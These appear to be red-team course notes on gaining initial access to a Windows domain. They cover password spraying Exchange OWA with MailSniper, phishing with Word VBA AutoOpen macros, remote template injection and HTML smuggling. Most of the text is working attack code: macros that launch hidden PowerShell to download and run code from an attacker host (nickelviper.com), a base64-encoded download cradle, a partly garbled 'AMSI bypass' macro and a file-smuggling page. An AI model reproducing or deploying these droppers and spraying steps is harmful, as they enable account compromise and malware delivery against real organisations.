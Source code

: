 ## Password Spraying

---

1. Enumerate NetBIOS name of the target domain with [[MailSniper#Invoke-DomainHarvestOWA]]
``` powershell
ipmo C:\Tools\MailSniper\MailSniper.ps1
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

2. Generate possible usernames from full names with [namemash.py](https://gist.github.com/superkojiman/11076951)
``` bash
./namemash.py names.txt > possible.txt
```

3. Validate which usernames are valid with [[MailSniper#Invoke-UsernameHarvestOWA]]
``` powershell
Invoke-UsernameHarvestOWA -ExchHostname <exchange_hostname> -Domain <domain> -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

4. Spray passwords against the valid accounts using Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS) with [[MailSniper#Invoke-PasswordSprayOWA]]
``` powershell
Invoke-PasswordSprayOWA -ExchHostname <exchange_hostname> -UserList .\Desktop\valid.txt -Password <password>
```

5. Download the global address list with valid credentials with [[MailSniper#Get-GlobalAddressList]]
``` powershell
Get-GlobalAddressList -ExchHostname <exchange_hostname> -UserName <domain>\<username> -Password <password> -OutFile .\Desktop\gal.txt
```


## Internal Phishing

---

### Initial Access Payloads

1. Send a URL where a payload can be downloaded.
2. Attach the payload to the phishing email.


### VBA Macros

- create beacon payload in [[Cobalt Strike#Create Beacon Payload]]
go to `Attacks > Scripted Web Delivery (S)` and generate a 64-bit PowerShell payload

![](https://files.cdn.thinkific.com/file_uploads/584845/images/94e/ba0/32d/swd.png)
![](https://files.cdn.thinkific.com/file_uploads/584845/images/5c5/5b6/77d/oneliner.png)

- prepare word document
	1. `File > Info > Inspect Document > Inspect Document`
	2. click `Inspect`
	3. click `Remove All`
	4. `File > Save As`
	5. use `.doc`

- host a file on [[Cobalt Strike#Host a File]] team server
`Site Management > Host File` and select document

![](https://files.cdn.thinkific.com/file_uploads/584845/images/087/4fa/7c4/host-file.png)

- auto open script
``` vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('<url>'))"""

End Sub
```

[Here](https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365) are some HTML templates based around Office 365 (a copy can also be found in `C:\Tools\PhishingTemplates`).  Open one of them, e.g. `Word.html` in Edge or another browser. Amazingly, what you can do is `Ctrl + A` and `Ctrl + C` to copy the content; and then `Ctrl + V` to paste it directly into the OWA text editor.  All the text and image formatting should be preserved.

You can change the text placeholders and URL to the payload on lines [160](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L160), [183](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L183), [192](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L192), [197](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L197), and [207](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L207).  My payload URL will be _http://nickelviper.com/ProductReport.doc_.

To prevent powershell from running as a childprocess of Word, use this example:
``` vba
Sub AutoOpen()

	Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
	Set obj = shellWindows.Item()
	obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbgBpAGMAawBlAGwAdgBpAHAAZQByAC4AYwBvAG0ALwBhACIAKQA=", Null, Null, 0

End Sub
```

AMSI bypass:
``` vba
	Sub AutoOpen() Dim Shell As Object Set Shell = CreateObject("wscript.shell") 'AMSI bypass and payload Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('[http://nickelviper.com/a1'));IEX](http://nickelviper.com/a1'));IEX "http://nickelviper.com/a1'));IEX") ((new-object net.webclient).downloadstring('[http://nickelviper.com/a2')](http://nickelviper.com/a2') "http://nickelviper.com/a2')"))"""  
End Sub
```

## Remote Template Injection

---

Open Word on the Attacker Desktop, create a new blank document and insert your desired macro.  Save this to `C:\Payloads` as a Word 97-2003 Template (*.dot) file.  This is now our "malicious remote template".  Use [[Cobalt Strike#Host a File]] to host this file at _http://nickelviper.com/template.dot_.

Next, create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Templates`.  Add any content you want, then save it to `C:\Payloads` as a new .docx.  Browse to the directory in explorer, right-click and select _7-Zip > Open archive_.  Navigate to _word > _rels, r_ight-click on `settings.xml.rels` and select _Edit_.

This is just a small XML file.  Scroll right until you see the _Target_ entry.

Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"

It's currently pointing to the template on our local disk from which the document was created.  Simply modify this so it points to the template URL instead.

Target="http://nickelviper.com/template.dot"

## HTML Smuggling

---

``` html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```